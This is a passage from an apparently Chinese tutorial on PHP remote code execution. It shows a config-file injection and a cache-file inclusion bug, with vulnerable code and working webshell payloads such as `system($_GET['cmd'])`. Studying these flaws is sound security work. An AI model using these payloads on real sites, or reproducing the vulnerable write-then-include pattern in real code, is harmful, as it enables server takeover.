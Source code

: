 我们要是提交`';system($_GET['cmd']);'`

配置文件就会变成

```
<?php 
$news_width = '';
system($_GET['cmd']);
'';
 $bgcolor = '#000000';
 $fgcolor = '#ffffff'; 
$padding = '5px'; 
$subject_margin = '0px'; 
$fontname = 'verdana';
 $fontsize = '13px'; 
?> 

```

很明显这就是个合法的php文件了，也成为了一个webshell。

**Demo #2 缓存写入不当的RCE**

```
$newsfile = "news.txt"; 
$file = fopen($newsfile, "r"); 
..........................................................................
 elseif ((isset($_REQUEST["title"])) && (isset($_REQUEST["date"])) &&
(isset($_REQUEST["post"])) && ($_REQUEST["title"]!="") &&
($_REQUEST["date"]!="") && ($_REQUEST["post"]!="")) {
$current_data = @fread($file, filesize($newsfile));
fclose($file);
$file = fopen($newsfile, "w");
$_REQUEST["post"] = stripslashes(($_REQUEST["post"]));
$_REQUEST["date"] = stripslashes(($_REQUEST["date"]));
$_REQUEST["title"] = stripslashes(($_REQUEST["title"]));
if(fwrite($file,$btable . " " . $btitle . " " . $_REQUEST["title"] . " " .  $etitle . " " . $bdate . " " . $_REQUEST["date"] . " " . $edate . " " . $bpost . " " . $_REQUEST["post"] . " " . $epost . " " . $etable . "\n " . $current_data))
include 'inc/posted.html';
else 
include 'inc/error1.html'; 
fclose($file);

```

这个代码的业务功能就是写入缓存，是下次使用之前直接调用静态文件 如何显示给访客呢

```
<? include("news.txt"); ?>

```

那么我们试试注入shell

```
<table class='sn'> <tbody> 
<tr><td class='sn-title'> 
<?php system($_GET['cmd']); ?> 
</td></tr> <tr><td class='sn-date'> 
Posted on: 08/06/2009 </td></tr> <tr><td class='sn-post'> test2 </td></tr> </tbody></table><div><br /></div> <table class='sn'> <tbody> <tr><td class='sn-title'> test </td></tr> <tr><td class='sn-date'> Posted on: 08/06/2009 </td></tr> <tr><td class='sn-post'> test </td></tr> </tbody></table><div><br /></div>

```
